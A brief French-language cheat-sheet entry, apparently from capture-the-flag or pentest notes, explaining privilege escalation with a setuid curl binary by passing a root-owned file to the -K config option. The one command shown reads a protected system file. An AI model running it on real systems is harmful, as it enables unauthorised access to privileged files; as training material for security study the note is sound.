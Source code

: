 # Curl

> Privesc avec curl avec un setuid

```bash
$ curl -K//root/root.txt
```

- `-K<FICHIER_DE_CONF>` : permet de spécifier à curl un fichier où il doit lire les arguments de la commande

